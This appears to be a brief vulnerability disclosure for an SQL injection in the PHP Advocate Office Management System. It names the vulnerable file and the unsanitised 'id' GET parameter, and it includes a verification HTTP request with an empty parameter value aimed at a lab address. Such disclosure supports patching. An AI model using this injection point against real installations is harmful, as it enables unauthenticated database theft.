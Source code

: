 

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/deactivate_reg.php file, and you can see that the code is the id parameter that receives the GET request, and is assigned to the $rid and directly brought into the database for operation.

![image-20250314120402278](images/image-20250314120402278.png)



Vulnerability verification：

```
GET /office/kortex_lite/control/deactivate_reg.php?id= HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
```

![image-20250314120414328](images/image-20250314120414328.png)



































